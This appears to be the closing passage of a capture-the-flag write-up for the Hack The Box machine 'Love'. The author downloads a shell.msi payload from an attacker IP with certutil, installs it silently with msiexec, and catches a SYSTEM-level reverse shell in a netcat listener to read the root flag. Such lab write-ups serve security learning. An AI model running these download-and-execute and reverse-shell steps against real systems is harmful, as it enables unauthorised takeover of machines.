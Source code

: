 ```text
C:\xampp\htdocs\omrs\images>certutil -urlcache -f http://10.10.15.5/shell.msi shell.msi
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\xampp\htdocs\omrs\images>msiexec /quiet /qn /i shell.msi
```

## Root Flag

Switch to a waiting netcat listener:

```text
┌──(root💀kali)-[~/htb/love]
└─# nc -nlvp 443                                                                            
listening on [any] 443 ...
connect to [10.10.15.5] from (UNKNOWN) [10.10.10.239] 58816
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

We got our shell as system. Time to grab the root flag:

```text
C:\WINDOWS\system32>type c:\users\administrator\desktop\root.txt
type c:\users\administrator\desktop\root.txt
<HIDDEN>
```

All done. See you next time.

